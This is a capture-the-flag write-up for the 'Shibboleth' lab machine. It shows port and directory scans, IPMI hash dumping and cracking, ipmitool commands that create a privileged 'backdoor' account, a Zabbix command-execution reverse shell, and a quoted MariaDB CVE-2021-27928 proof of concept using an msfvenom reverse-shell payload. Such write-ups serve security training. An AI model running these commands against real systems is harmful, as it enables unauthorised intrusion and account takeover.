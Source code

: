 # Shibboleth

![Shibboleth.png](Shibboleth/Shibboleth.png)

### 11/11/2021

Default nmap scripts and port scan:

```python
bracketz:~/Desktop/shibboleth $ nmap -sC -sV -T4 10.10.11.124 -o default-scan
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-13 22:46 -03
Nmap scan report for 10.10.11.124
Host is up (0.41s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.31 seconds
```

The entire port scan reported nothing:

![Untitled](Shibboleth/Untitled.png)

Default directories:

```python
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shibboleth.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/13 22:59:35 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/] 
/server-status        (Status: 403) [Size: 279]
```

Assets directory

![Untitled](Shibboleth/Untitled%201.png)

Message in the forms directory:

![Untitled](Shibboleth/Untitled%202.png)

Attempt to run the PHP, but at first sight it doesn't show nothing. 

![Untitled](Shibboleth/Untitled%203.png)

Subdomains scan, found two subdomains. 

![Untitled](Shibboleth/Untitled%204.png)

Let's start fuzzing the monittor.shibboleth.htb directory, to discover a lot of files and try find something useful to attack the machine. 

![Untitled](Shibboleth/Untitled%205.png)

In the first contact with the subdomain, we can known that is a Zabbix, Zabbix is a network monitor software, metrics around network utilization. The majority of directories are blocked with 403 (Forbidden).

![Untitled](Shibboleth/Untitled%206.png)

Zabbix can have a IPMI implementation, we can try dump hashes, it retrieve HMAC-SHA1 password hashes of default usernames.

By wikipedia: Is a set of computer interface specifications for an autonomous computer subsystem that provides management and monitoring capabilities independently of the host system's CPU, firmware BIOS and operating system.  Hardware monitoring

![Untitled](Shibboleth/Untitled%207.png)

In UDP scan it returns a IPMI open port:

![Untitled](Shibboleth/Untitled%208.png)

[https://book.hacktricks.xyz/pentesting/623-udp-ipmi](https://book.hacktricks.xyz/pentesting/623-udp-ipmi)

Enumeration

```python
nmap -n -p 623 ip
nmap -n-sU -p 623
or metasploit auxiliary/scanner/ipmi/ipmi_version
```

We can try retrieve hash via Remote Password Hash retrieval 

You ask the server for the hashes MD5 and SHA1

```python
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

Working with IPMI:

[http://www.staroceans.org/e-book/IPMI-hack.htm](http://www.staroceans.org/e-book/IPMI-hack.htm)

Identifying IPMI Auth.

![Untitled](Shibboleth/Untitled%209.png)

We can try IPMI cipher zero.

```python
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

This machine accepts IPMI cipher zero:

![Untitled](Shibboleth/Untitled%2010.png)

```python
sudo apt-get install ipmitool
```

And also has a account creation with the commands:

```python
$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set name 2 backdoor

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set password 2 password

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user priv 2 4

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user enable 2

 

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user list
```

### IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval

The BMC will tell you the password hash for any valid user account you request.

The password is broken using bruteforce attack

Dumping administrator hash and saving in a out file:

![Untitled](Shibboleth/Untitled%2011.png)

Crack step:

```python
john ./out.john --wordlist=[]
```

Hashcracked

![Untitled](Shibboleth/Untitled%2012.png)

The crack password is : ilovepumkinpie1

Login with success

![Untitled](Shibboleth/Untitled%2013.png)

On the zabbix we can look at softwares installed:

![Untitled](Shibboleth/Untitled%2014.png)

Go to the discovery:

![Untitled](Shibboleth/Untitled%2015.png)

Zabbix rules creation

![Untitled](Shibboleth/Untitled%2016.png)

Key to run commands: Execute a system command and get the reverse shell in your system.

![Untitled](Shibboleth/Untitled%2017.png)

![Untitled](Shibboleth/Untitled%2018.png)

Analysing users:

![Untitled](Shibboleth/Untitled%2019.png)

Database password:

zabbix_server.conf-124-DBPassword=bloooarskybluh

Mariadb version

![Untitled](Shibboleth/Untitled%2020.png)

[https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html](https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html)

Create a elf and execute this with mariadb

```python
# CVE : CVE-2021-27928

# Proof of Concept:

# Create the reverse shell payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so

# Start a listener
nc -lvp <port>

# Copy the payload to the target machine (In this example, SCP/SSH is used)
scp CVE-2021-27928.so <user>@<ip>:/tmp/CVE-2021-27928.so

# Execute the payload
mysql -u <user> -p -h <ip> -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
```

Creating the elf:

![Untitled](Shibboleth/Untitled%2021.png)

Getting the file:

![Untitled](Shibboleth/Untitled%2022.png)

Even with error the reverse was executed:

![Untitled](Shibboleth/Untitled%2023.png)

Concluded machine.
